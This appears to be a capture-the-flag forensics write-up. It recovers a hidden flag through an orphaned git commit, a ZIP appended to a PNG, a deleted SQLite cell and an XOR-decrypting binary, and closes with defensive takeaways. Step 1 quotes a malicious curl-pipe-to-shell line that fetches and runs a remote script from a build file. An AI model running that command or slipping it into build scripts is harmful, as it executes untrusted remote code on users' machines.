



Flag: CSCTF{p0lygl0t_r3qu13m_1d0a73980738}
Category: Forensics (git, PNG polyglot, SQLite carving)
Tools used: git (read-only, hooks disabled), Python 3 (struct, zipfile, sqlite3, hashlib), objdump
Brief: A ground-station SDK repo shows altered build history and an odd dashboard asset, and I had to recover the concealed marker. Nothing from the evidence was executed and no address found in it was contacted.

Steps:
1. Start point: the repo's reachable and unreachable history
   - What I did: unzipped polyglot-requiem.zip (39,051 bytes, SHA-256 2a3aeda4...97813c9), which holds README_FOR_RESPONDERS.md, manifest.sha256 and the flight-telemetry-sdk git repo, then ran git log --all and git fsck --unreachable with hooks disabled.
   - What I found: five reachable commits, all stamped 2026-10-15 11:53:46 +0100, plus one unreachable commit, c435f88 ("build: add telemetry opt-in check"), with its tree and a blob.
   - What I found: its diff only adds curl -s http://198.51.100.9/telemetry-opt-in.sh | sh to build.sh. That is the "altered build history", a pipe-to-shell I only read and never ran or fetched.
   - Thinking: the curl line is bait, but the commit itself is still evidence, so I noted its commit time (%ct 1792061626) in case a later step needed a time value.

     

2. Pivot: a ZIP hiding behind the PNG's IEND
   - What I found: assets/telemetry_icon.png is a tiny image (IHDR 13, tEXt 27, IDAT 18, IEND) but the file is 23,008 bytes. The tEXt chunk is Provenance = 0f18e37122ddbcca, and 22,894 bytes follow IEND.
   - Thinking: an 18-byte IDAT cannot explain a 23 KB file, so the data after the end marker was the next lead.
   - What I did: walked the chunks and cut out everything after IEND.
   - What I found: the trailer starts with PK 03 04, so a ZIP is appended to the PNG. It holds telemetry_cache.db (SQLite, 8,192 bytes) and assetsignd (an ELF, 14,472 bytes).
   - Result: a SQLite file, an ELF and a Provenance tag.

3. Pivot: a deleted cell in the SQLite pages
   - What I found: the live table build_secrets holds four obviously fake rows (aws_demo_key, grafana_token, npm_registry_token, pad_row_a).
   - What I did: searched the raw page bytes for strings and found ci_provenance_seal, which is in no live row. It is a deleted cell whose bytes survived: record header 04 00 31 54 (NULL id, 18-byte text, 36-byte blob) and the blob eec4bf28579c1bc91a4aeb48b2d0bf862bf8fe0571cfbd4deda3bdef0d177e7c9aa4c401.
   - Thinking: a name in the raw page but in no live row is a deleted record, and a 36-byte blob is exactly the length of a CSCTF{...} flag, so it looked like ciphertext.

     

4. Flag: read assetsignd statically and decrypt
   - What I did: disassembled assetsignd with objdump (usage: tag, epoch, infile, outfile). It computes key = SHA-256(reverse(tag bytes) || epoch as 8-byte little-endian) and out[i] = in[i] XOR key[i & 0x1f], so the 32-byte key repeats.
   - Thinking: the program wants exactly the two values the earlier layers gave me, a tag (the PNG's Provenance) and an epoch (a git time). The epoch was the guess: I tried values near the commit time, and the exact commit timestamp produced readable text.
   - What I found: tag 0f18e37122ddbcca with epoch 1792061626 decodes the first 32 bytes to CSCTF{p0lygl0t_r3qu13m_1d0a73980.
   - Dead end: my first attempt only decoded 32 bytes because I applied a plain 32-byte keystream once. Reading the XOR loop again showed the & 0x1f wrap, which supplies the last 4 bytes: 738}.
   - Result: CSCTF{p0lygl0t_r3qu13m_1d0a73980738}

     

Key insight: The flag was a 36-byte blob in a deleted SQLite cell inside a ZIP appended after a PNG's IEND, XORed with SHA-256 of the PNG's reversed Provenance tag and a git commit time. Each innocent-looking layer (an unreachable commit, a polyglot icon, an unlinked cell) hid one piece, and the pieces only meet in that key derivation. The curl-to-shell line was a reason to read the history, not to run it.
Defensive takeaways: Deleting a SQLite row or orphaning a git commit does not erase it, and an asset can carry a whole archive after its end marker. A repo review should run git fsck --unreachable and compare asset sizes with their image data.
Reproduce: python -I solve.py path\to\flight-telemetry-sdk (read-only git calls with hooks disabled; the PNG, ZIP, SQLite and XOR work is in Python and the ELF is never run)
